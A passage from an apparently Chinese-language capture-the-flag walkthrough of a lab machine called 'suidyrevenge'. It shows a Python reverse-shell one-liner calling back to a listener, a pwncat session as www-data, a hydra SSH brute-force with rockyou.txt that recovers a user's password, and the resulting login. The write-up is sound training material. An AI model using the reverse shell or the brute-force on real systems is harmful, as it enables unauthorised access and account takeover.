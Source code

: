 提升 pty

```bash
# python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 8888
[14:33:30] Welcome to pwncat 🐈!
[14:33:39] received connection from 192.168.56.109:42180
[14:33:39] 192.168.56.109:42180: registered new host w/ db
(local) pwncat$ back
(remote) www-data@suidyrevenge:/var/www/html/supersecure$ whoami
www-data
```

## User - www-data

### 题目提示

```plaintext title="/var/www/html/murdanote.txt"
I always lost my password so Im using
one password from rockyou.txt !

-murda
```

## SSH 爆破 - murda

```bash
┌─[✗]─[randark@parrot]─[~/tmp]
└──╼ $hydra -v -V -I -l murda -P /usr/share/wordlists/rockyou.txt 192.168.56.109 ssh -t 4
......
[22][ssh] host: 192.168.56.109   login: murda   password: iloveyou
```

## User - murda

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs murda@192.168.56.109
[14:37:23] Welcome to pwncat 🐈!
Password: ********
[14:37:25] 192.168.56.109:22: normalizing shell path
           192.168.56.109:22: registered new host w/ db
(local) pwncat$ back
(remote) murda@suidyrevenge:/home/murda$ whoami
murda
```

### 题目提示
